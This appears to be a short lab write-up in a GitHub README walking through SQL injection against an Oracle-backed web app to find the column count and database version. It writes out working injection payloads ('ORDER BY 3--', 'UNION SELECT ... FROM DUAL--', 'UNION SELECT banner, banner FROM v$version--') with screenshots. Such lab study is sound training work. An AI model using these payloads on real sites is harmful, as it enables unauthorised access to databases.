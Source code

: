 # SQL-injection-attack-querying-the-database-type-and-version-on-Oracle

> # (1) To be sure that it has an sql vulnerability: url' -> internal server error. That means it has a vulnerability
![image](https://user-images.githubusercontent.com/59218362/208419556-a6f17621-237e-48f5-b8b2-6ed3921c833a.png)

> # (2) To know the number of column: 'ORDER BY 3-- -> internal server error. It means there are 2 columns
![image](https://user-images.githubusercontent.com/59218362/208419394-038bbc5a-d0b3-43b3-a354-62f0b5d009fb.png)
![image](https://user-images.githubusercontent.com/59218362/208419254-4f09eb82-d337-4da7-b75c-7421953397dd.png)

> # (3) To know which column is data retrieving: ‘UNION SELECT NULL,'Data'--. But got error. It is because the database is oracle
![image](https://user-images.githubusercontent.com/59218362/208419051-fa25dbc1-36fd-4a9e-96ff-9ddbb13abde3.png)

> # (4) To know data retrieve in oracle database: 'UNION SELECT 'sajib','rajib' FROM DUAL--. See we find out 2 both 2 column are retrieving data
![image](https://user-images.githubusercontent.com/59218362/208418870-00c353a4-c3b8-457c-bea7-3cc0eb951824.png)

> # (5) To know the version of oracle database: 'UNION SELECT banner, banner FROM v$version--. Here two banner is for the 2 columns.
![image](https://user-images.githubusercontent.com/59218362/208418752-2b3a8c05-feac-4081-9b64-f13c018b5a91.png)

